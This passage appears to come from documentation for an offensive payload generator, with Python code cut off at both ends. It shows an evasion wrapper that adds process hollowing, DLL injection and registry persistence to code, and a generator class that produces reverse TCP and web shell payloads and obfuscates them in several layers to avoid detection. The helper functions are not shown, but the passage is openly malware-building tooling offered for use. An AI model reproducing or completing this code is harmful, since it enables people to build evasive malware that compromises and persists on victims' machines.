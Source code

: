 ```python

# Add to startup
add_persistence(__file__)
"""
        return persistence_code + code

# Usage in obfuscator
def apply_advanced_evasion(code, techniques):
    """Apply advanced evasion techniques."""
    evasion = EvasionTechniques()
    
    if 'process_hollowing' in techniques:
        code = evasion.add_process_hollowing(code)
    
    if 'dll_injection' in techniques:
        code = evasion.add_dll_injection(code)
    
    if 'registry_persistence' in techniques:
        code = evasion.add_registry_persistence(code)
    
    return code
```

### Integration Example

Complete integration example:

```python
from config import ConfigManager
from logger import get_logger
from obfuscator_enhanced import AdvancedObfuscator

class CustomPayloadGenerator:
    """Custom payload generator with full integration."""
    
    def __init__(self, config_file=None):
        self.config = ConfigManager(config_file)
        self.logger = get_logger()
        self.obfuscator = AdvancedObfuscator()
    
    def generate(self, payload_type, **kwargs):
        """Generate payload with full integration."""
        
        # Log operation start
        self.logger.operation_start("payload_generation", 
                                   payload_type=payload_type)
        
        try:
            # Generate base payload
            if payload_type == "reverse_tcp":
                payload = self._generate_reverse_tcp(**kwargs)
            elif payload_type == "web_shell":
                payload = self._generate_web_shell(**kwargs)
            else:
                raise ValueError(f"Unsupported payload type: {payload_type}")
            
            # Apply obfuscation if configured
            if self.config.get("payload.auto_obfuscate", True):
                layers = self.config.get("payload.obfuscation_layers", 5)
                payload = self._apply_obfuscation(payload, layers)
            
            # Save payload
            output_file = self._save_payload(payload, **kwargs)
            
```